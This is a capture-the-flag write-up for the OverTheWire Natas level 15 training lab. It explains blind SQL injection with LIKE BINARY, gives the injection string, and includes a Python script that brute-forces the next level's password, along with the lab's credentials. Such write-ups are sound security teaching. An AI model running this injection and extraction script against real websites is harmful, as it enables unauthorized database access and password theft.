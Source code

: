 ```php
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```
According to the source code above, if we supply a debug key the server will `echo` what the query is. Thus if want to see what SQL command is being executed, we can sneakily also supply `&debug` to the end of this URL like so: `http://natas15.natas.labs.overthewire.org/index.php?username=a&debug`.

Since our queries are binary (as in they can only return true or false a user exists), how can we find the user's password? Currently our query only tries to match the username, but we can inject additional statements to ask true/false questions about the password. We know supplying `username=natas16` already evaluates to true, and we can use [LIKE operator](https://www.w3schools.com/sql/sql_like.asp) and [BINARY function](https://www.w3schools.com/sql/func_mysql_binary.asp) to ask what characters the password contains.

With the injection `natas16" AND password LIKE BINARY "a%`, we essentially ask, is there a user `natas16` with a password that starts with `a`? The percent sign represents zero, one, or multiple characters after the `a`. The SQL query becomes:
```sql
SELECT * from users where username="natas16" AND password LIKE BINARY "a%"
```

So you can try a few letters until you find out the first character is `W`, and then go on to the next injection `natas16" AND password LIKE BINARY "Wa%` but this would take some time. So, let's brute force it with Python.

```python
import requests
import sys

site = "http://natas15.natas.labs.overthewire.org/"
# Passwords are alphanumeric
character_set = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234568790"
injection = 'natas16" AND password LIKE BINARY "'

session = requests.Session()
session.auth = ('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')

password = ""
print("Starting...")
# The passwords to the previous levels and this one are all 32 characters
while len(password) < 32:
    # Loop over all characters.
    for char in character_set:
        # Send POST request to site, injecting into username parameter.
        response = session.post('http://natas15.natas.labs.overthewire.org/',
                                data={'username': injection + password + char + "%"})
        # Break if char is correct, move onto next position in password string
        if "This user exists" in response.text:
            # Write next character to buffer
            sys.stdout.write(char)
            # Flush data data in buffer, "print" next character
            sys.stdout.flush()
            password += char
            break
print("\nDone")

```
Wait a minute or two, and you'll have the password: `WaIHEacj63wnNIBROHeqi3p9t0m5nhmh`.
